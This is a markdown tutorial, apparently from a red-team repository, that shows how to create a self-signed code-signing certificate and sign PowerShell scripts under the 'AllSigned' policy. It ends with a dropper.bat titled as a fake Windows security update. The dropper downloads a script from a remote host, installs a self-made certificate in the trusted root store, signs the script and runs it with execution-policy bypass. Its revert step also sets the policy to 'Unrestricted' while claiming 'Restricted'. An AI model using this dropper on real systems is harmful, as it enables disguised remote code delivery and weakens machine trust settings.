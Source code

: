 ### Create a Self-Signed Certificate for Code Signing

<br />

In PoweShell 3.0, the [New-SelfSifgnedCertificate](https://docs.microsoft.com/en-us/powershell/module/pkiclient/new-selfsignedcertificate?view=win10-ps) cmdlet was generating only SSL certificates that couldn’t be used to sign the driver and application code (unlike certificates generated by the MakeCert utility). In PowerShell 5 the new version of the New-SelfSifgnedCertificate
cmdlet can now be used to issue a Code Signing certificates.

<br />

#### Lets build our test script { my_posh_script.ps1 } - Open Notepad Copy/Paste/Save it
```
# Malicious Code to execute
write-host "Just to test IF certificate sign was worked.." -ForeGroundColor green -BackGroundColor black
Start-Sleep -Seconds 3

```
<br />

#### Lets set 'Target' PS Execution Policy to 'AllSigned' to test the script (no need admin rigths)
`Set-ExecutionPolicy AllSigned -Scope CurrentUser`
![drrr](https://user-images.githubusercontent.com/23490060/72698984-6cf18480-3b3e-11ea-8c93-81b5ae68a9d6.png)

<br />

#### Lets Run our Script (With PS ExecutionPolicy set to 'AllSigned')
[AllSigned = Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sd11](https://user-images.githubusercontent.com/23490060/72687408-6a1e7180-3af5-11ea-8d14-c0ffa221468d.png)

<br />


#### To create a self-signed certificate for signing the application code (my_posh_script.ps1), run the command:
```
$cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate" -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My
```
![sdr](https://user-images.githubusercontent.com/23490060/72689217-0dc44d80-3b07-11ea-98f6-1acadb0615b3.png)

<br />

#### Let’s try to sign our PowerShell script (my_posh_script.ps1) using this certificate:
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![fdr](https://user-images.githubusercontent.com/23490060/72689232-3cdabf00-3b07-11ea-9ba7-ff830fca7356.png)

**Remark:** f you are receiving an **'UnknownError'** warning when executing the command, this means that **'the certificate is not trusted'**.
Because it is located in the **'user’s personal certificates store'** To open the certificate store press: Windows+R -> `certlm.msc`.
![sd3](https://user-images.githubusercontent.com/23490060/72686272-bfa15100-3aea-11ea-9f1a-7ae2e2cb0cb2.png)

<br />

#### We need to move our certificate to the 'trusted root certificates' store
![sd4](https://user-images.githubusercontent.com/23490060/72686277-dba4f280-3aea-11ea-9332-9e8c274bb9fe.png)
![sd5](https://user-images.githubusercontent.com/23490060/72686281-e52e5a80-3aea-11ea-96a6-a11bf6e8e8f3.png)
![sd6](https://user-images.githubusercontent.com/23490060/72686284-ec556880-3aea-11ea-9af0-3e43c4ea8fa1.png)

<br />

#### After that, you can sign your PowerShell script with this self-signed certificate.
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![dsf](https://user-images.githubusercontent.com/23490060/72689414-1158d400-3b09-11ea-9d6a-449a224c1952.png)
#### After the script beeing signed, it will be append one certificate {code block} inside the PS script:
![po1](https://user-images.githubusercontent.com/23490060/72687557-d2ba1e00-3af6-11ea-840b-702ccbe4bc73.png)
#### Running the script with PS Execution-Policy set to 'AllSigned'
[AllSigned. Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sdff](https://user-images.githubusercontent.com/23490060/72687601-6a1f7100-3af7-11ea-8f95-9d611d8867b2.png)

---

<br />

**Remark:** After beeing signed, the PS script can not be changed under the risk of breaking cert code block

**Remark:** Remmenber that this certificate its only valid for the Local Machine (current PC) were it was been stored..
That meens if we port the PS script to a remote machine it will not execute, because remote machine does not contain
this certificate in there certificate store ...

<br />

#### Revert Target System to 'Default' Settings. (non admin privs requiered)
`cmd /c echo Y | powershell Set-ExecutionPolicy Restricted -Scope CurrentUser`
![fin](https://user-images.githubusercontent.com/23490060/72699309-ae366400-3b3f-11ea-9397-fc9c2510f907.png)

---

<br />

This next step shows us how this technic can be abused (PS Execution Policy bypass) to remote Download/Execute our PS Script, even if target system is config to Only run digitally Signed PS scripts .. It will download and execute him ..

<br />

#### Batch (dropper.bat) Automation Example:
```
@echo off
color 03
title Cumulative Security Update KB4524147

echo [1] Set Target PS Execution Policy to 'AllSigned' to test script.
cmd /c echo Y | powershell Set-ExecutionPolicy AllSigned -Scope CurrentUser
timeout /T 2 >nul

echo [2] Downloading our PS script to target 'tmp' remote folder.
powershell -C (New-Object Net.WebClient).DownloadFile('http://192.168.1.71/my_posh_script.ps1', '$env:tmp\my_posh_script.ps1')
timeout /T 2 >nul

echo [3] Digitally sign Our Downloaded PS script (my_posh_script.ps1)
:: Code to digitally sign Our Downloaded PS script (my_posh_script.ps1) -> { This certificate expires in six months }
powershell $cert = New-SelfSignedCertificate -Subject "My_Code_Signing_Certificate" -FriendlyName "SsaRedTeam" -NotAfter (Get-Date).AddMonths(6) -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My;Move-Item -Path $cert.PSPath -Destination "Cert:\LocalMachine\Root";Set-AuthenticodeSignature -FilePath $env:tmp\my_posh_script.ps1 -Certificate $cert
timeout /T 2 >nul

echo [4] Executing our Downloaded script and bypass user intervention
cd %tmp% && cmd /c echo A | powershell -Execution Bypass -NoProfile -File my_posh_script.ps1
pause


echo [i] Reverting %userdomain% to Previous State (before dropper.bat exec)
timeout /T 2 >nul
cmd /c echo Y | powershell Set-ExecutionPolicy Unrestricted -Scope CurrentUser
echo [i] PowerShell Execution Policy Set to: 'Restricted' ..
cd %tmp% && del /F /Q my_posh_script.ps1
echo [i] Script: my_posh_script.ps1 deleted from: %tmp% ..
echo [i] Remmenber to delete the 'certificate' from 'certlm.msc' cert store ..
pause
```
**Remark:** This batch script must be executed with **admin privileges**<br />
**Remark:** This Dropper.bat can **Download-PS-Script/Build-Cert/Sign-PS-Script/Execute-PS-Script** because the Policy
its set by Default to powershell Scripts Only (this policy does not affects batch scripts from running and executing all of this)..
![dff](https://user-images.githubusercontent.com/23490060/72754958-28f39380-3bc1-11ea-8eb8-d2c61351ba14.png)

<br />

### Final Notes:
- 1º - This Batch script will revert target machine to previous state, by setting the PS policy<br />
       to **'Restricted'** (default) and by deleting **'my_posh_script.ps1'** from **%tmp%** remote folder ..
- 2º - Remmenber to delete the certificate from **certlm.msc** cert store (LocalMachine\Root) ..
